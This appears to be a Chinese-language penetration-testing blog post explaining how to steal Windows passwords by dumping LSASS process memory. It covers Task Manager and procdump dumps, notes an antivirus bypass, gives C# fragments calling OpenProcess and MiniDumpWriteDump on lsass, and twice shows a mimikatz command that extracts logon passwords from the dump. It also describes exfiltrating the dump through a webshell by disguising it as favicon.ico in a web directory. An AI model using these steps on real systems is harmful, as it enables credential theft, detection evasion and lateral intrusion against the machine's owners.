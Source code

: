 ```yaml
---
layout: post
title: MiniDumpWriteDump
---
```




## 0x01

常见内网渗透会经常遇到抓取windows密码的场景，本文用来学习使用内存转储的方式来获取windows密码。

## 0x02

我们可以将转储LSASS的进程内存。Windows允许我们创建转储文件，它是给定进程的快照。此转储包括加载的库和应用程序内存。

在任务管理器中直接转储就可以，他将会生成一个dmp的文件，然后拿回本地用Minikatz解密即可。



![img](https://gitee.com/a4m1n/tuchuang/raw/master/pic/clipboard.png)

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

这样做的缺点是需要图形化界面，需要登录到管理员桌面，然后操作，渗透中常用的方法有sqldump,procdump,不过Procdump在遇到某些AV时候会被拦截，不过选择要procdump的pid来转储时也可以达到Bypass的效果

## 0x03

其实不难发现，Procdump和任务管理器的这两种方法都是使用了MiniDumpWriteDump的API

```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,      //获取 LSASS的句柄
  DWORD                             ProcessId,     //获取 LSASS的进程ID号
  HANDLE                            hFile,		   //要写入信息的文件句柄
  MINIDUMP_TYPE                     DumpType,      //要生成的信息类型
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  //指向MINIDUMP_EXCEPTION_INFORMATION 结构的指针
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  //指向MINIDUMP_USER_STREAM_INFORMATION 结构的指针 
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam   //指向MINIDUMP_CALLBACK_INFORMATION 结构的指针
);
```

其实并不需要全部的参数，使用前面4个即可，然后看下需要的Import

![image-20210811173030733](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811173030733.png)

```
static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, int DumpType, ref MINIDUMP_EXCEPTION_INFORMATION ExceptionParam,IntPtr UserStreamParam, IntPtr CallbackParam);
```

要获取进程 ID，我们可以使用 Process 类GetProcessesByName 方法

```
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;
```

使用Process方法的时候需要引入Diagnostics

![image-20210811174541665](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174541665.png)

使用Win32 OpenProcess来获取Lsass

![image-20210811174944360](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174944360.png)

```
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
```

然后我们提供完整的访问参数

![image-20210811190434296](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811190434296.png)

最后设置需要输出的这个文件,这里选择使用Win32 CreateFile这个API

实例化FileStream对象，必须提供两个参数:文件名(lsass.dmp)、文件的完整路径和文件模式,这里要加入System.IO命名空间

![image-20210811191125006](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191125006.png)

最后调用MiniDumpWriteFile,当向MiniDumpWriteFile加文件句柄时候,要加一个SafeHandle类

```
bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
```

至此结束,完整代码如下

![image-20210811191647971](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191647971.png)

通常生成的lsass.dmp的文件一般比较大,只有webshell的时候下载不便,但是可以通过copy的方法,把favicon.ico复制到可以访问到的web目录,然后用wget将其下载本地解密,也可以直接把输出的文件地址改到web服务器的物理路径



解密方法

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

## 0x04

